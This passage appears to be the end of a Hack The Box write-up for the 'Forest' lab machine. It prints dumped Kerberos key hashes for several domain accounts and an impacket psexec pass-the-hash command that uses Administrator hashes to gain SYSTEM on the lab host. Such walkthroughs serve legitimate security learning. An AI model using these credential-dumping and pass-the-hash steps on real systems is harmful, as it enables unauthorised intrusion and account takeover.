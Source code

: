 ```bash
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
amirr0r:aes256-cts-hmac-sha1-96:1bcb06ac63d36244df3f5e5caf71124272fb4f3a39a92f7388e0dae5c6a1e994
amirr0r:aes128-cts-hmac-sha1-96:4579d5cfdce40a61edd38e611ecb54a4
amirr0r:des-cbc-md5:942f64df5b4f68c4
FOREST$:aes256-cts-hmac-sha1-96:436bb9ae0cf5796398fafe5ff9bdff2ad2d9159151a3da186753c95c708ffd9f
FOREST$:aes128-cts-hmac-sha1-96:51ff1311236394aa15091e4b7029f142
FOREST$:des-cbc-md5:e0c43de6544f5e83
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up..
```

### Pass The Hash

We can use **PsExec** with `Administrator` hashes to gain access:

```bash
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![Desktop View](/assets/img/htb/machines/windows/easy/forest/system.png)

Now that we're **SYSTEM** on the target machine, we could stop here... 😎

___
